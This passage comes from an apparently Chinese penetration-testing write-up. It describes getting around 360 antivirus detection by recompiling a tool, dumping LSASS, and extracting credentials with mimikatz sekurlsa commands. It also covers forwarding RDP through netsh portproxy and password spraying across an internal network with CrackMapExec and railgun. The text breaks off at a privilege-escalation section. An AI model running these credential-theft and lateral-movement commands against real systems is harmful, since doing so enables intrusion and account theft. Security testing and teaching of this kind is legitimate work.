 直接编译生成360会报毒，可稍微修改再次编译生成，生成的VM21-6-8.log拖回本地解密

CallbackDump.exe to

![image-20220929094315306.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-726f3b2d0e5b1ea23e4fc1fd3e3269e62a5ad94c.png)

```php
dumpXor.exe VM21-6-8.log 1.dmp  
sekurlsa::minidump 1.dmp  
sekurlsa::logonPasswords
```

![image-20220929101614774.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-a7fc9ad7a8a644a57246ec6923361f29df27130d.png)

上线tomcat机器后，抓取hash值通过cmd5成功解密

探测端口发现445和3389是开放的，但是无法连接过去，猜测可能是对部分端口进行限制

使用netsh转发到8888端口

` netsh interface portproxy add v4tov4 listenport=8888 listenaddress=192.168.121.132 connectport=3389 connectaddress=192.168.121.132 `

删除netsh配置

` netsh interface portproxy delete v4tov4 listenport=8888 listenaddress=192.168.121.132 protocol=tcp `

![image-20220926093640957.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-290a06902972f0ea0d5016eeeeb5f84aa3c8ce9a.png)

RDP登录到tomcat机器上

![image-20220929151748309.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-77e73ad57b7ccd3e502d98f970961504fd3387a4.png)

密码喷射
----

通过拿到的机器整理出密码本，对内网其他机器进行密码喷射

推荐crackmapexec和railgun

<https://github.com/Porchetta-Industries/CrackMapExec>

![image-20220930111902535.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-0a0e28173420b89c6079c7c746864f2cd68606bb.png)

<https://github.com/lz520520/railgun>

![image-20220930112049388.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-138f07ceb616238ce030db51034995aece9da187.png)

成功通过密码本组合爆破出另一台机器

![image-20220929151450411.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-72c2aa1863c9e08337d3eafdca74866ff6fa3ab6.png)

#### 高版本机器提权

查看进程发现上面登着域管进程，低权限先提个权

使用下面项目直接到system
